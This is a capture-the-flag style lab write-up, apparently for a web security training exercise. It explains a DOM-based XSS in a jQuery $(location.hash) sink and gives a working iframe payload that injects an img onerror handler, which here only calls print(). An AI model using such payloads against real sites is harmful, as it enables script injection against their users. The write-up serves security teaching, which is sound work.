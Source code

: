 ## Solution steps

- Notice the vulnerable code on the home page using the browser's DevTools.
- From the lab banner, open the exploit server.
- In the Body section, add the following malicious iframe: `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`
- Store the exploit, then click View exploit to confirm that the print() function is called.
- Go back to the exploit server and click Deliver to victim to solve the lab.

## Explanation
- Let’s say the vulnerable site is: https://victim-site.com/#some-value
- And the site has some JavaScript like this: $(location.hash)
- That line of code means: "Take whatever comes after the # in the URL, and pass it to jQuery's $() function."
- So if the URL is: `https://victim-site.com/#<img src=x onerror=print()>`
- Then the code becomes: `$('<img src=x onerror=print()>')`
- Which creates an image element and puts it on the page. And because the image source is invalid (x), it fails to load, which triggers the onerror=print() part and our XSS gets executed.
- You can't just send a link like this: `https://victim-site.com/#<img src=x onerror=print()>`. Because some browsers or filters might block or break the < > characters, especially in URLs.
- So instead, you load the vulnerable page in an <iframe> and dynamically change its src from JavaScript inside your exploit.
  <iframe src="https://victim-site.com/#" 
        onload="this.src+='<img src=x onerror=print()>'">
  </iframe>
- What this does:
  1. Loads the page like this:
  → https://victim-site.com/#
  2. Then the onload event triggers:
  → this.src += '<img src=x onerror=print()>'
  3. So the iframe reloads the page like:
  → https://victim-site.com/#<img src=x onerror=print()>
  4. That gets inserted into the page with jQuery:
  → $(location.hash)
  5. Which becomes:
  → $('<img src=x onerror=print()>')
  6. That creates a broken image and triggers:
  → print()
